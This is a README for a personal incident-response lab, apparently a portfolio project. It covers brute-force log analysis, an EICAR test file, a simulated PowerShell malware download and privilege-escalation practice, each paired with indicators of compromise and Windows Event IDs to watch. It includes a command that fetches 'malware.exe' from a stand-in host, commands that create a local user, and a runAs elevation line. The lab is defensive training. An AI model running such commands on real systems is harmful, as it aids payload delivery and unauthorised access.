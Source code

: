 # Multi-Incident-Response-Report

## 🔨 Brute-Force Attack Incident Response Report
This project simulates a real-world incident response using a brute-force login attack. I investigated the incident using Splunk logs, documented key Indicators of Compromise (IoCs), and mapped the behaviour to MITRE ATT&CK.
See `Brute_Force_incident_report.md` for the full report. Additionally, to see how a  Brute-force attack was done, please visit my [Splunk-threat-hunting-lab](https://github.com/Mr-ebony/Splunk-threat-hunting-lab.git) project.

## 🦠 Malware Execution Using EICAR (Safe Simulation)

### Steps
+ **Open Browser on the Windows VM**
+ Visit the official EICAR test file site (Please see **Image 1** within Screenshots/Malware )
  🔗 [https://www.eicar.org/download-anti-malware-tesfile/](https://www.eicar.org/download-anti-malware-tesfile/)
+ Download the `eicar.com` file - your antivirus or Windows Defender will likely alert or block it (Please see **Image 3** within Screenshots/Malware).
  #### Alternative way to download if it is blocked (Manual Method) (Please see **Image 2** within Screenshots/Malware)
  +  Open Notepad (or any text editor)
  +  Paste this exact string on a single line:
  +  ```spl
     X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
     ```
  + Name the file:
    ```spl
    eicar.com
    ```
  + Save it to your *Desktop or a dedicated test folder like `C:\EICAR_TEST`
  ✅ Done! You now have a test virus file.
+ Attempt to run it on your desktop (it will likely get a block event) (Please see **Image 4** within Screenshots/Malware).
+ Open **Windows Event Viewer → Applications and Services Logs → Microsoft → Windows → Windows Defender → Operational**, look for logs from `Window Defender`
### Common IOCs that can be extracted from Windows Defender Malware Logs
| IoC Type             | Description / Example           | 
|--------------------|---------------------|
| Timestamp | When the malware was detected         |
|  Threat Name   | Malware family name (e.g., Trojan:Win32/Emotet)      |
| Severity Name | Info/ Low/ Moderate/ High/ Severe         |
| File Path    | Exact path of the infected file (e.g., C:\Users\User\AppData\Temp\badfile.exe)      |
| File Name | Name of the malicious file (badfile.exe)         |
| SHA-256 or MD5    | Hash of the malicious file (if Defender captures it)      |
| Action Name | Quarantined, Removed, Blocked. Allowed         |
| Detection Source Name  | Real-time, Scheduled scan, On-demand Scan, etc.      |
| Process Name | The process that dropped or executed the malware (Powershell.exe, cmd.exe, etc)         |
| Remediation Status    | Whether the threat was successfully removed or is still active      |
| User | Which user account triggered the detection         |
| Device Name / Hostname    | The machine where the threat was found     |
| IP Address (indirect) | Might be found if malware attempted outbound communication (Check Event ID 5156)         |

### Event IDs to Watch For:
| Event ID             | Meaning           | 
|--------------------|---------------------|
| 1116 | Malware detected         |
| 1117   | Malware action taken      |
| 1118 | Malware cleaned successfully         |
| 5007    | Settings changed      |

## 🧨Powershell Attack
### Steps
+ **Open PowerShell as Administrator on the Windows VM**
+ Run the following harmless but suspicious command (Please see **Image 1 and 2** within Screenshots/Malware):

  ```spl
  
  Invoke-WebRequest -Uri "http://test.com/malware.exe" -OutFile "C:\Users\Public\Downloads\malware.exe"
  ```
  + Check **Windows Event Viewer** under (Please see **Image 3** within Screenshots/Malware):
    + ` Windows Event Viewer → Applications and Services Logs → Microsoft → Windows → Powershell → Operational`
    + Event ID: `4104` (script block logging)
   
### ✨Common IOCs from a PowerShell Suspicious Command (Blocked) Log
| IoC Type             | Description / Example           | 
|--------------------|---------------------|
| Timestamp | Exact time the command was executed or blocked (from the log)         |
|  User Account   | `user: DESKTOP\User1` - the account that ran the PowerShell Session      |
| Hostname/Device | The name of the computer where the script ran         |
| Script Block Content    | The actual **PowerShell command or script** (base64, obfuscated, etc.)     |
| File Path (if any) | Path of dropped/executed file (e.g., `C:\Users\User\Downloads\malicious.ps1)          |
| Network IOCs    | IPs, URLs, or domains inside the script (e.g., `http://malicious[.]com/payload)      |
| Encoded Commands | Base64 strings used in commands like `powershell.exe -EncodedCommand...`         |
| Parent Process  | What launched PowerShell (e.g., `winword.exe`, `cmd.exe`, `explorer.exe`      |
| Process ID (PID) | Useful to correlate with other system or security events        |
| Event ID    | e.g. 4104 (script block), 4105 (blocked execution), 4688 (process creation)      |
| Command Line | Full command line arguments passed to `powershell.exe`         |
| Obfuscation Indicators    | Usage of `Invoke-Expression`, `FromBase64String`, `IEX`, etc.     |

### ✨Why These IOCs Matter
+ Helps detect **malicious PowerShell Usage**, which is common in:
  + Lateral movement: The attacker already got into one computer, now they’re sneaking into others on the same network, like hopping from room to room in a house.
  + Persistence: The attacker wants to remain hidden and maintain access even if the system reboots or security updates are applied.
  + Command and control (C2): The attacker’s computer is like a boss giving orders. Your infected system talks back to the boss over the internet, receiving instructions.
  + Payload delivery: The attacker drops the actual “bad stuff” (like a virus or ransomware) into the system, which is the weapon they use.
+ Can be used in:
  + SIEM detection rules: These are automated rules set in a SIEM tool (like Splunk or Wazuh) to spot suspicious activity, like failed logins, PowerShell abuse, or malware behaviour, and raise alerts when something unusual happens.
  + YARA rules: These are used to detect malware by matching patterns or strings in files, memory, or emails.
  + Threat hunting queries: These are manual searches done by analysts to actively look for threats before alarms go off. They dig into logs or system behaviour to find things that look odd or hidden.
  + Threat intelligence enrichment: This means adding extra context to raw data (like an IP address) to know if it’s bad, who owns it, what threat group uses it, etc.

 ## 🧨Privilege Escalation Attempts
### Step 1: Create a Low-Privilege User 
+ Open Command Prompt as **Administrator**
+ Run two simple commands:
  - To create the user
  - To assign the use to the "Users" group (default, non-admin group)
 ```spl
  net user samson1 Password /add
  net localgroup "Users" samson1 /add
  ```
### Step 2: Simulate a Privilege Escalation Attack 
I tried two beginner-friendly options: 
#### **Option 1: Simulate UAC Bypass (Manual)**
I tried to simulate what a malicious program might do to elevate privileges by running a known UAC bypass (just for lab practice).
1. Log into the Windows VM as `samson1`.
2. Open **Notepad** and paste this:
 
  ```spl
  Start-Process powershell -Verb runAs
  ```
3. Save it as `bypass.ps1`.
4. Run it via PowerShell (right-click → Run with ***PowerShell***).
🗝 This triggers a **UAC prompt**. If the attacker knows the admin password, they can elevate.
#### What to watch for in the logs:
+ **Event ID 4672:** Special privileges assigned to new logon.
+ **Event ID 4688:** New process creation.
+ **Event ID 4624:** Logon event with elevated privileges.
